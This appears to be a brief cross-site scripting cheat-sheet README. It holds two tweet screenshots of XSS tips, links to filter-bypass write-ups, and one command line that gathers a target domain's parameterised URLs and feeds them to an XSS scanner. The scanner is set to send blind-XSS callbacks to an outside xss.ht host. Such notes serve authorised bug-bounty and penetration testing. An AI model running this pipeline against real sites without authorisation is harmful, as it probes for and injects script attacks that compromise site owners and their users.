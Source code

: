 <h1 align="center">XSS --> Cross Site Scripting</h1>

<h3>1</h3>
<a href="https://twitter.com/404death/status/1464102960372224003"><img width="550" height="600px" align="center" src="https://user-images.githubusercontent.com/79082257/143777165-68df1dd0-a69a-4fcb-af8e-5fb7c96463f8.png"/></a>

<h3>2</h3>
<a href="https://twitter.com/0xElkomy/status/1467466221704847361"><img width="600" height="700px" align="center" src="https://user-images.githubusercontent.com/79082257/144747863-5c672808-727e-4ac2-a894-ce09966ea765.png"/></a>

Payloads
```
   echo Target.com | gau -subs | grep "https://" | grep -v "png\|jpg\|css\|js\|gif\|txt" | grep "=" | uro | dalfox pipe --deep-domxss --multicast --blind username.xss.ht
```


https://www.cyberick.com/post/xss-payload-filter-bypass-by-xploiterr

https://infosecwriteups.com/how-i-was-able-to-bypass-strong-xss-protection-in-well-known-website-imgur-com-8a247c527975
